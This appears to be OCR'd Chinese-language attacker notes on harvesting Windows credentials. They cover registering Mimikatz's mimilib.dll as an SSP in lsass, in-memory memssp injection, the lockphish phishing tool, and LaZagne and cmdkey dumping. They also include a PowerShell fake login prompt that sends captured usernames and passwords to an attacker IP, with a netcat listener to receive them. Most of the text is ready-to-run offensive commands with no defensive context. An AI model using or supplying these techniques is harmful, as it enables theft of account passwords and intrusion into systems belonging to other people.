 	- SSP

		- 注册SSP的DLL
LSA可扩展，在系统启动时SSP会被加载到进程lsass.exe中
可以自定义一个dll，在系统启动的时候被加载到进程lsass.exe
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
LSA 项中的 Security Packages 键值中存贮着相关SSP的DLL文件
将Mimikatz的mimilib.dll复制到System32目录下
添加mimilib到Security Packages的值中
关机重启
在C:\Windows\System32目录下生成一个kiwissp.log文件，并记录了登陆的账号密码
		- 内存加载SSP
利用Mimikatz中的misc::memssp加载mimilib至内存中去，加载至内存的好处就是无需重启系统，缺点在于不利于持续化
privilege::debug
misc::memssp
锁定计算机管理员登陆之后会在C:\Windows\System32目录下生成mimilsa.log文件并记录账号密码

	- 钓鱼记录明文

		- lockphish 

			- 一个自动化的工具，使用Web界面进行远程的社会工程学钓鱼，并且可规避了免杀的问题
git clone https://github.com/thelinuxchoice/lockphish
cd lockphish
sudo bash lockphish.sh

		- Powershell 简单钓凭证

			- 目标机运行以下ps脚本:
$creds = $host.ui.PromptForCredential("Login Required","Enter username and password.", "$env:username","NewBiosUserName");
$v=$creds.GetNetworkCredential() | Format-List * | Out-String
$v1=$v -replace "\r\n","-" -replace " ",""
Invoke-WebRequest -Uri "http://192.168.200.73/$v1"
# Write-Host -NoNewline $v1.Trim("-")
攻击者监听:
nc -lvp 80

	- LaZagne

		- https://github.com/AlessandroZ/LaZagne/releases/

			- laZagne.exe all
			- laZagne.exe all -oN
			- laZagne.exe browsers

	- 当前保存的凭据

		- cmdkey /list

	- 常用软件保存密码的注册表地址

		- navicat

			- MySQL
HKEY_CURRENT_USER\Software\PremiumSoft\Navicat\Servers\<your  connection name>
